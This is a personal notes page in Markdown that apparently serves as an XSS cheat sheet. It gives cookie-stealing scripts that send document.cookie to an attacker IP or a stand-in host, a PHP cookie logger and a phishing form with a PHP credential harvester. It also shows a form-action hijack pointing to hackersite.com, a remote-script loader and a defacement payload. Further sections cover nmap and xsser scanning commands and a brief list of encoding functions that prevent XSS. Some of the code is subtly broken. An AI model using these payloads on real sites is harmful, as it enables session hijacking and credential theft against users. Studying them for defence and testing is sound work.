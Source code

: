 ```yaml
---
layout: default
title: XSS
nav_order: 2 
parent: security stuff
permalink: /notes/security-stuff/xss
---
```


1. TOC
{:toc}

---

## XSS Examples
### Simple Alert Box
```js
<script>alert('attacked')</script>
```




### Cookie Stealing
> #### **_example one_**
```js
<script>document.location="http://localhost/cookie.php?q="+document.cookie;</script>
```
> #### **_example two_**
```html
<a href="javascript:document.location='http://localhost/cookie.php?q='+document.cookie;">CLICK ME!</a>
```
>> *cookie.php could look like this:*
```php
<?php
$file = "cookie.txt"
$act = fopen($file, 'a');
$cookie = $_GET['q'];
fwrite($act,$cookie);
fclose($act);
?>
```

> #### **_other examples_**
```js
<script>new image().src="http://<attacker's IP Address>/b.php?"+document.cookie;</script>
<script>new Image().src="http://111.11.11.11/"+encodeURI(document.cookie)</script>
<script>$.post("http://111.11.11.11", {cookie:document.cookie})</script>
```




### Phishing 
> #### **_example one_**

> ```html
> <form name ="phish" action="http://localhost/phish.php" method="post">
> <br><br><hr>
> <h3>Login now:</h3><br><br>
> Enter Username: <br><input type="text" name="email"><br><Enter Password:<br><input type="password" name="pass"><br> 
> <input type="submit" name="Login" value="Login">
> </form>
> <br><br><hr>
> ```

>> *phish.php could look like this:*
```php
<?php
$file = fopen('phished.txt', 'a');
$fwrite($file, 'Email = ' . $_POST['email'] . PHP_EOL);
$fwrite($file, 'Pass = ' . $_POST['pass'] . PHP_EOL . PHP_EOL);
fclose($file);
header("Location: http://exapmle.com/xss.html");
die();
?>
```

> #### **_example two_**
*In this case, the page will remain completely unchanged. SSL will not help the victim either.*
```js
forms[0].action.value="http://hackersite.com/phish.cgi";
```




### Stored XSS -> Image onmouseover
```js
<IMG SRC=# onmouseover="alert(document.cookie)">
```

### Call a script from an external source
```js
<script>document.write('<script src=http://example.com/xss.js></script>')</script>
```

### Post data to form
```js
<script>$.post("<http form>", {parameter: "<value>"})</script>
```

### DOM Deface
```html
# deface with image
document.body.innerHTML="<img src="#" height="500%" width="700%" ></img>";
```

---

## Tool scanning for XSS vulnerabilities

### ARACHNI: <https://www.arachni-scanner.com/>

### NMAP: (NSE scripts: http-dombased-xss , http-stored-xss , http-phpself-xss)
```bash
nmap -p80 --script http-stored-xss.nse --script-args=httpspider,maxpagecount=200 <target-host>
```

### XSSER
```bash
xsser -c100 --Cw=4 -U <target-host>
c : number of pages to crawl
--Cw : depth of crawler 
-u : URL
```

---

## Securing your code / preventing XSS
Listed below are some common functions used to prevent XSS 
- asp.net: `AntiXss.htmlencode()`
- javascript: `AntiXSS.JavascriptEncode()`
- php: `htmlentities()` , `htmlspecialchars()` , `trim()` , `stripslashes()` , `mysql_real_escape_string()` , [more](https://www.w3schools.com/pHp/php_ref_string.asp)  

---

## Resources / More 
### Links  
#### Cheatsheets and more
[XSS Filter Evasion Cheat Sheet from OWASP](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)  
[xss payloads cheatsheet](https://xsses.rocks/sample-page/)  
[collection of xss payloads, tools and reference](http://www.xss-payloads.com/)  
[bypassing XSS filtering by s0md3v](https://github.com/s0md3v/MyPapers/tree/master/Bypassing-XSS-detection-mechanisms)  
#### Tools
[XSS Fuzzer](https://github.com/NytroRST/XSSFuzzer)  
[xcampo](https://github.com/plaguna/xcampo)  
#### wordlists
[a payloads.txt](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt)  
[another payloads.txt](https://github.com/atulgrayhat/xss-custom-payload/blob/master/xss-payloads.txt)  







